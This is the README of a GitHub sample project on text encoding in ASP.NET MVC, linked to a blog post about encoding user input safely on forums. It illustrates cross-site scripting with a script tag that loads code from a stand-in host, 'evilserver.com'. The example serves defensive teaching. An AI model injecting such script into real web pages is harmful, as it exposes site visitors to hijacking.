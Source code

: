 Text encoding in ASP.NET MVC by example
===================================

This GitHub project is the accompanying code for 
[my blog post](http://blog.michaelckennedy.net/2012/10/15/understanding-text-encoding-in-asp-net-mvc/)

See a live example at:

[http://text-encoding-aspnet-mvc-by-example.azurewebsites.net/](http://text-encoding-aspnet-mvc-by-example.azurewebsites.net/)

Here is what it is all about:

This sample covers the various ways in which you might handle 
text encoding in ASP.NET MVC. For example, if you were writing 
a forum web app, you should absolutely be paranoid about 
what your users are typing into your site. You need to be 
very careful about how you redisplay their input. 
For example, a friendly forum user might write something like:

    Nice post, thanks for sharing!

On the other hand, they may write:

    <script src="http://evilserver.com/xss.js"></script>
    <script>xss.doBadDeeds();</script>

If you turn around and show this "post" to your other uses, 
maybe they'll get hacked. At a minimum, the evil-doers 
could be a nuisance to your real users.

On the other hand, if you're building a CMS or utility 
helper method, you do not want to filter out the HTML a 
user might type. They probably need to enter some HTML
 which you�ll want to show to all the other users. Same 
thing goes for code your app might generate.

There are at least three ways which MVC manages 
and encodes (or does not encode) text data. Knowing 
which scenario you�re targeting allows you to choose 
the right option. We'll look at four examples in this post:

Keep reading at [http://blog.michaelckennedy.net/2012/10/15/understanding-text-encoding-in-asp-net-mvc/](http://blog.michaelckennedy.net/2012/10/15/understanding-text-encoding-in-asp-net-mvc/)

